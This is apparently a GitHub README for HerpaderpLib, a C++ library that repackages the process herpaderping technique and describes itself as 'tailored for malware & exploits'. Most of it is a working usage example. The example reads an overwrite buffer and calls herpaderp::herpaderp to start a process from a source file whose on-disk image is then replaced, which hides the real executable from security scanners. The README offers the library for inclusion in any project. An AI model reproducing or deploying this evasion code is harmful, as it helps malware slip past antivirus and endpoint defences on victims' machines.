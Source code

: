 
# HerpaderpLib

An Easy To Use Process Herpaderping Library Tailored For Malware & Exploits.

## Example

```cpp
    LPCWSTR sourceFileName = argv[1];
    LPCWSTR targetFileName = argv[2];
    LPCWSTR overwriteFileName = argv[3];

    if (!sourceFileName || !targetFileName || !overwriteFileName) {
        printf("[*] Usage: Herpaderp.exe <SOURCE_FILE> <TARGET_FILE> <OVERWRITE_FILE>\n");
        return -1;
    }

    HANDLE overwriteFile = CreateFileW(
        overwriteFileName,
        GENERIC_READ,
        FILE_SHARE_READ,
        0,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        0
    );

    DWORD bufferSize;
    auto buffer = herpaderp::readFile(overwriteFile, bufferSize);

    if (!buffer || bufferSize == 0)
        printf("[-] Failed To Read Overwrite File.\n");
    else
        printf("[+] Read Overwrite File.\n");

    auto resInfo = herpaderp::herpaderp(
        sourceFileName, // sourceFileName
        targetFileName, // targetFileName
        NtCurrentProcess, // parentProcess
        (PBYTE)buffer, // overwriteBuffer
        bufferSize // overwriteBufferSize
    );

    if (herpaderp::succeeded(resInfo))
        printf("[+] Process Herpaderped!, Process PID: %ld\n", GetProcessId(resInfo.process));
  
    free(buffer); // buffer is allocated by malloc, don't forget to free it, You can change this to use a unique pointer instead.
```

## Usage (Compiled Example)
```
$ Herpaderp.exe <SOURCE_FILE> <TARGET_FILE> <OVERWRITE_FILE>
```

## Notes
You may need to add size checks to ``herpaderp::overwriteWithBuffer``, Depending on your needs (OverwriteFileSize < TargetFileSize).


## Credits

[Process Herpaderping](https://github.com/jxy-s/herpaderping) by [jxy-s](https://github.com/jxy-s), I just basically simplified his implementation and made it operate like a library instead, So It can be included in any of your projects easily without worrying about dependencies.
